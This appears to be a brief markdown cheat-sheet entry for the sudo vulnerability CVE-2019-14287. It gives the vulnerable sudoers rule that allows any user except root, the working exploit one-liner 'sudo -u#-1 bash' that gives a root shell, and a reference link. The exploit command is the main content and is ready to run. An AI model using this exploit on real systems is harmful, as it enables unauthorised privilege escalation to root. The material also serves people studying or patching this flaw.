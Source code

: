 ### Issue occurs when a user is allowed to run <command> as any user except the root user (example running bash)
```
(ALL, !root) /bin/bash
```

### Exploit
```
sudo -u#-1 bash
```

### References
https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287  

